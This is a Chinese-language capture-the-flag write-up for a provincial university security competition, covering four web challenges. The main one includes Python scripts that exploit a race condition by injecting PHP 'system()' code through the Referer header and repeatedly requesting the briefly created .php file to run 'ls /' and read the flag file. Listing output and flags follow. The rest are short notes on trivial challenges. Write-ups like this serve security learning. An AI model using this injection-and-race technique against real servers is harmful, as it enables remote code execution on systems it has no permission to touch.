 ## 第五届浙江省大学生网络与信息安全竞赛-技能挑战赛Web Writeup

记录省赛预赛两道没做出的Web题

## 买买买01
条件竞争，当时没思考清楚的问题是，我知道通过条件竞争可以短时间的在系统上有一个.txt.php文件，但是没想明白怎么去让这个php文件被解析，因为file_get_contents这个函数只能读取文件内容但是却不会解析。其实只要直接访问就行。。。。

多线程也行，同时运行俩python文件也行。

```python
import requests
while 1:
    response = requests.get(
        "http://1.14.97.218:21715/e7a1b1b1e092b53be5fa11394bbed8fb/e7a1b1b1e092b53be5fa11394bbed8fb.txt2.php")
    if response.status_code != 404:
        print(response.text)
```

```python
import requests
while 1:
    # res = requests.get("http://1.14.97.218:21715/index.php?action=copy", headers={"referer": "<?php system('ls /');?>"})
    res = requests.get("http://1.14.97.218:21715/index.php?action=copy", headers={"referer": "<?php system('cat /fla444444444444g');?>"})
    # print(res.text)

```

```python
competebin
boot
dev
etc
fla444444444444g
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
```

```
competeDASCTF{43378609768205435621416258245141}
```

## nisc_easyweb
这个电脑没装扫描器省赛又不让上网。。。。所以根本就没发现/robots.txt

纯傻逼题目。。。

```python
http://1.14.97.218:27359/test_api.php?i=FlagInHere

DASCTF{84772015113998304475018439433695}
```

## js小游戏
f12一看index.js,base64解码就行

## 学生管理系统
注册账号就有Flag,可能是非预期吧

感觉预赛的时候有点手忙脚乱，继续沉淀。